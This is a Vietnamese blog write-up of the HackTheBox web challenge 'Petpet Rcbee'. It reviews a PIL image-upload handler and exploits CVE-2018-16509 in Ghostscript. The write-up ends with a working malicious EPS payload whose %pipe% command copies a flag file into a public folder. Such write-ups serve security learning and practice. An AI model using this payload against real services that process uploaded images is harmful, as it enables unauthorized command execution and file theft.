 ```yaml
---
title: HTB Petpet Rcbee
author: HoangND
date: 2021-09-05 08:51:00 +0700
categories: [Writeups, HackTheBox]
tags: [pil, ghost script]
---
```


Petpet rcbee là một web challenge. Sau khi xem xét thì thấy rằng trang web chỉ có một chức năng duy nhất là upload 1 ảnh sau đó "pet" ảnh này.

![image](/assets/posts/petpet-rcbee/1.png)

Oke kiểm tra source code xem có gì có thể lợi dụng để RCE thông qua file được tải lên hay không

```python
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400

    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)

        filename = f'{generate(14)}.gif'
        finalpet[0].save(
            f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
            save_all=True, 
            duration=30, 
            loop=0, 
            append_images=finalpet[1:], 
        )

        os.unlink(tmp_path)

        return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200

    except:
        return {'status': 'failed', 'message': 'Something went wrong'}, 500
```

Ảnh sau khi được tải được xử lý bằng hàm petpet. 
Bên trong thực hiện các thao tác như lưu ảnh vào file tạm, generate một ảnh gif dựa trên ảnh này, sau đó đưa nó vào thư mục theo đường dẫn là biến UPLOAD_FOLDER ở trong config. 
Cuối cùng là xóa ảnh trong tmp.

Trang web này sử dụng một thư viện là PIL để xử lý ảnh, để xem PIL có CVE nào k. 
Sau khi xem xét một vòng thì có 1 CVE liên quan đến PIL và Ghostscript để RCE là [CVE-2018-16509](https://store.vsplate.com/en/post/141/), check lại thì bên trong file docker có tồn tại cái gọi là Ghostscript thật.

![image](/assets/posts/petpet-rcbee/2.png)

Sử dụng luôn craft image của CVE, chạy thử trên local

![image](/assets/posts/petpet-rcbee/3.png)

Oke vậy là đã RCE được, bây giờ cần làm thế nào để đọc được flag được dấu bên trong. Để ý rằng có một đường dẫn tệp được public là UPLOAD_FOLDER (/static/petpets/).
Vậy chỉ cần đọc file flag và ghi vào một file bất kỳ trong đường dẫn này là xong.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > application/static/petpets/test.txt) currentdevice putdeviceprops
```

![image](/assets/posts/petpet-rcbee/4.png)
